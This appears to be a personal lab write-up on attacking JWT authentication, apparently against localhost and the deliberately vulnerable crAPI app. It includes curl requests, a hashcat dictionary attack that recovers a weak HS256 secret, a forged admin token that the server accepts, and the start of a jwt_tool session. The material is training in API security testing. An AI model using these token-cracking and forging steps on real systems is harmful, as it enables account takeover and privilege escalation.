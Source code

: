 Decoding it gives

{
    "userid": "user",
    "iat": 1702037941
}

```sh
curl -i http://localhost/dashboard -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJ1c2VyIiwiaWF0IjoxNzAyMDM3OTQxfQ.khDRzFo0diZ5DoT5JkwEMqlzQjTLLlF36J_12z2gnDo"
```

response : {"message":"Welcome to your dashboard user"}
We get this cause out token was valid

We can change the userid : admin , to admin and if the signature isnt being verfied, we will get welcome to dashboard, but here the signature is being b]verfied so we get an error

If signature signed with a weak secret, the token can be forged

To crack the key for JWT using hashcat

```sh
hashcat -a 0 -m 16500 hash.txt /usr/share/wordlists/rockyou.txt
```

-m : 16500 for JWT
-a : dictionary attack

To view the token 

```sh
hashcat -a 0 -m 16500 token.txt /usr/share/wordlists/rockyou.txt --show
```

response : ucyxu6

Go to jwt.io and forge the token with the key found and change user type to admin 

Token forged for admin = eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJhZG1pbiIsImlhdCI6MTcwMjAzNzk0MX0.dLKQQgByZaynjmtg0ixj5AjFu-5TWV95kfWTfUDFsKQ

```sh
curl -i http://localhost/dashboard -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyaWQiOiJhZG1pbiIsImlhdCI6MTcwMjAzNzk0MX0.dLKQQgByZaynjmtg0ixj5AjFu-5TWV95kfWTfUDFsKQ"
```

{"message":"Welcome to your dashboard admin"} 

```sh
sudo ln -s /opt/jwt_tool/jwt_tool.py /usr/local/sbin/jwt_tool
```

***To access JWT directly in any directory, we just added it to our path***


##### Using JWT Tool

Login to crAPI

```sh 
jwt_tool eyJhbGciOiJSUzI1NiJ9.eyJzdWIiOiJhQGIuY29tIiwicm9sZSI6InVzZXIiLCJpYXQiOjE3MDIwMzk4NzksImV4cCI6MTcwMjY0NDY3OX0.bjyqwsgh56jBRHH70SmJV9a3BBbh0BtKKS41hbTp4Itn-KtoGrrWNmS_3Kn_DyTahuNlN8v7ye0xR3On-jKiRj_VSoEW_zoAcxPFOJ9m1cM-XAWjBRMYCwlZXCclf91YmXpOmk-45vPpPEMaKvfqoEs-IsBaiBM7stTZq6Usx_1LvDMSNt6bav7ksNLa5BxJFS5XV3kOxwoNR9o-R6Ejz3EyTeQX0IAdbY3qodLXgK6xG1FXi1q4Ii89VkxHObzS6Ea5zjtE0VjKcwOfgiRvzv7AOeZ-JaWZEG-y2VRHHkBkOUwS8mjf_xPx1L7lAbjq9esVeoN9RbxbPtBU0b9wog
```
